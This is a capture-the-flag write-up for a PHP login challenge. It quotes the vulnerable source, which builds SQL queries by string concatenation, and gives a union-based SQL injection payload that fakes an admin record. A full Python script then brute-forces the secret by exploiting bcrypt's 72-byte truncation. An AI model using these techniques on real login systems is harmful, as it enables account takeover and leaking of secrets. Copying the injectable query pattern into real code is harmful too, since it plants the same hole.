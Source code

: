 # Overview
A challenge that exploits bcrypt behavior.

# Solution
When inspecting with dev tool, we can see a commented block at the bottom.
It gave us a link to `/?source`

Navigate to the page and we will see the source code:
```php=
<?php

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}

$flag = $_ENV['FLAG'] ?? 'jctf{test_flag}';
$magic = $_ENV['MAGIC'] ?? 'aabbccdd11223344';
$db = new SQLite3('/db.sqlite3');

$username = $_POST['username'] ?? '';
$password = $_POST['password'] ?? '';
$msg = '';

if (isset($_GET[$magic])) {
    $password .= $flag;
}

if ($username && $password) {
    $res = $db->querySingle("SELECT username, pwhash FROM users WHERE username = '$username'", true);
    if (!$res) {
        $msg = "Invalid username or password";
    } else if (password_verify($password, $res['pwhash'])) {
        $u = htmlentities($res['username']);
        $msg = "Welcome $u! But there is no flag here :P";
        if ($res['username'] === 'admin') {
            $msg .= "<!-- magic: $magic -->";
        }
    } else {
        $msg = "Invalid username or password";
    }
}
?>
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Login</title>
    <link type="text/css" rel="stylesheet" href="https://cdn.simplecss.org/simple.css" />
</head>

<body>
    <main>
        <h2>Login</h2>
        <form method="POST">
            <p>
                <label for="username">Username</label>
                <input type="text" name="username" placeholder="Username" />
            </p>
            <p>
                <label for="password">Password</label>
                <input type="password" name="password" placeholder="Password" />
            </p>
            <p>
                <button type="submit">Login</button>
            </p>
        </form>
        <p>
            <?= $msg ?>
        </p>
    </main>
</body>

</html>
<!-- /?source -->
```

It's a login page with a obvious sql injection vulnerability, but it looks like the flag cannot be retrieved directly (since it's concatenated in `$password`)
To get the flag, we need to get the `$magic`, which is load from ENV.

The sql injection technique I learned here is that **union based sql injection can also be used to fake the data**.

The authenticating code didn't checks the complete the whole auth process in sql statement.
So typical sql injection `admin' or 1=1 -- -` won't work.

But with union available, we can fake the username and password hash ourselves.
`password_verify()` checks user input with a hash generated by `password_hash()`.

So we just need to calc the blowfish hash of "1", and put our input and faked hash in the payload:
```python=
# As long as the original select statement didn't find anything,
# our fake record will be selected as $row
data = {
	"username": "adminasdasdasd' union select 'admin', '$2b$12$zlMgDAKYPqxA787D83eYeeBy5pb06naORsaDNWsjPTisdTYSI1Tqm' -- -",
	"password": 1
}
```

Then we can get the `$magic`!
I stucked at the flag part for few hours, but managed to solve it.

The `$flag` was concatenated into `$password`, so we need to leak the flag from something related to `$password`.

At first I was trying to leak the password by triggering error, but it seems impossible, the error never printed variable values.

Then I decided to find if there's any way to abuse `password_verify()`
It turns out it's possible, the password input has a 72 bytes length limit, only the first 72 characters will be used.
So, combine the techniques above, we can bruteforce the flag characters by truncating the `$password`, which was just concatenated with `$flag`:
```python=
import requests, string, bcrypt
table = string.ascii_letters+string.digits+"?!$:=,-|\\/!{@_}"

url = "http://login.chal.imaginaryctf.org/"
params = {"688a35c685a7a654abc80f8e123ad9f0": "123"}

salt = bcrypt.gensalt()

success = "Welcome admin"
result = "ictf{"

while not result.endswith("}"):
    prefix = "a" * (72 - len(result) - 1)
    for c in table:
        temp = result + c
        payload = prefix + temp
        hash = bcrypt.hashpw(payload.encode('utf-8'), salt).decode('utf-8')
        data = {
            "username": f"adminasdasdasd' union select 'admin', '{hash}' -- -",
            "password": prefix
        }
        response = requests.post(url=url, data=data, params=params)
        if (success in response.text):
            result = temp
            print("flag now: " + result)
            print("-"*20)
            break
        else:
            print(temp, "<-- fail")
            print("-"*20)

print(result)
```

ictf{why_are_bcrypt_truncating_my_passwords?!}

## Ref
https://zetcode.com/python/bcrypt/
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#password_hash-password_verify

